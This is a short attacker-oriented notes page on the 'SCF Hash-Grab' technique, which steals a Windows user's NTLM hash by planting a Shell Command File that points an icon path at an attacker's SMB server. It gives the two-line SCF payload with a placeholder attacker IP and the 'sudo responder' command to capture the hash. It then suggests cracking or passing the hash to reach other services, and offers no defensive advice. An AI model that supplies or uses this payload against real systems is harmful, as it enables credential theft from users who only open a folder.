 #vulnerability

# SCF Hash-Grab
## What is SCF Hash-Grab?
SCF Hash-Grab is a way to grab a victim's hash just by dropping a file in the disk.

"Just by accessing a folder containing a malicious SCF file, a user will unwittingly share his computer's login credentials with an attacker via Google Chrome and the SMB protocol," says BleepingComputer

It leverages a Shell Command File (SCF) in Windows - A file that configures a folder, including fetching resources, like Icon files, from SMB servers, which can give you...

## What does SCF Hash-Grab give me?
This technique gives you the NTLM hash of the user, so you can break/pass it and use other Windows services.

## Any documentation on SCF Hash-Grab?
[BleepingComputer - You Can Steal Windows Login Creds via Chrome and SCF](https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/)
[Stealing Windows Credentials Using Google Chrome](https://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf)

## How do I verify that a target is vulnerable?
Windows is vulnerable by default :)

The only requirements:
* File Upload
* Windows Explorer accesses the folder

## How do I use SCF Hash-Grab?
* Create a file named anything with a `.scf` extension
* write in it: 
```ini
[Shell]
IconFile=\\<your_ip>\icon
```
* turn on `responder` in your Kali setup
	* `sudo responder -I tun0`
* Wait for the user to check the folder
* Hash grabbed!